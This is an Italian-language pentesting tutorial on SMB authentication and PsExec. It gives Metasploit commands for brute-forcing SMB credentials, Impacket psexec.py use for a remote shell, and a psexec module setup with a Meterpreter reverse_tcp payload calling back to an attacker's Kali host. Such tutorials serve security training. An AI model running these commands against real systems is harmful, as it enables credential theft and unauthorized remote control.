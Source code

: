 # Exploiting SMB con PsExec

## Introduzione all’autenticazione SMB

Il protocollo **SMB (Server Message Block)** viene utilizzato nei sistemi Windows per la condivisione di file, stampanti e risorse di rete. SMB supporta due principali modalità di autenticazione:

1. **Autenticazione dell’utente** – richiede un nome utente e una password validi.  
2. **Autenticazione della risorsa condivisa** – richiede solo una password per accedere a una cartella condivisa, senza nome utente.

Durante la procedura di autenticazione SMB, il processo si svolge nel seguente modo:
- Il client invia una richiesta di autenticazione al server, specificando un nome utente.
- Il server risponde con una **stringa casuale (challenge)**.
- Il client cifra questa stringa con l’**hash della password dell’utente** e la invia al server.
- Il server, conoscendo l’hash della password, verifica la risposta.
Se la stringa corrisponde, l’autenticazione viene accettata.

---

## Che cos’è PsExec

**PsExec** è uno strumento sviluppato da Sysinternals (Microsoft) che consente di **eseguire comandi e processi su sistemi Windows remoti**.  
Può essere considerato un’alternativa più leggera di RDP: anziché accedere con un’interfaccia grafica, PsExec fornisce un accesso testuale simile al terminale, eseguendo comandi CMD da remoto.

Il suo funzionamento si basa sul protocollo SMB: ciò significa che può essere utilizzato per autenticarsi ed eseguire comandi su un host remoto **senza bisogno di vulnerabilità**, a condizione di possedere credenziali valide.

---

## 1 – Enumerazione delle credenziali con brute force

Uno dei modi più comuni per ottenere credenziali valide è il **brute force** sul servizio SMB.  
In Metasploit esiste un modulo apposito:

`use auxiliary/scanner/smb/smb_login` ⟶ modulo per tentare autenticazioni SMB. <br>
`set RHOSTS <IP>` ⟶ indirizzo target. <br>
`set USER_FILE <lista_username.txt>` ⟶ file contenente possibili username. <br>
`set PASS_FILE <lista_passwords.txt>` ⟶ file contenente possibili password. <br>
`run` ⟶ avvia il brute force. <br>

Se il modulo restituisce una coppia valida di credenziali, possiamo proseguire all’autenticazione.

---

## 2 – Accesso remoto con psexec.py (Impacket)

Lo strumento `psexec.py` della suite **Impacket** consente di autenticarsi e ottenere una shell CMD:

`psexec.py <username>@<IP> cmd.exe` ⟶ connessione remota tramite SMB con prompt dei comandi. <br>

Dopo l’invio del comando, verrà chiesta la password. Inserendo quella corretta, si otterrà accesso al prompt di Windows con i privilegi dell’utente fornito.

Questo tipo di autenticazione è **totalmente legittima**, non sfrutta vulnerabilità, e viene spesso usata da amministratori di sistema per gestire host remoti.

---

## 3 – Alternativa con Metasploit

Metasploit offre anche un modulo per sfruttare SMB usando credenziali valide:

`use exploit/windows/smb/psexec` ⟶ modulo per eseguire comandi su target Windows. <br>
`set RHOSTS <IP>` ⟶ indirizzo del sistema bersaglio. <br>
`set SMBUser <username>` ⟶ nome utente. <br>
`set SMBPass <password>` ⟶ password. <br>
`set PAYLOAD windows/meterpreter/reverse_tcp` ⟶ tipo di payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina di attacco. <br>
`set LPORT <Port>` ⟶ porta su cui ricevere la shell. <br>
`run` ⟶ avvia l’exploit. <br>

Questo modulo carica una reverse shell sul target e restituisce una sessione Meterpreter. Da lì:

`getuid` ⟶ mostra il contesto utente. <br>
`shell` ⟶ apre un prompt CMD. <br>

---
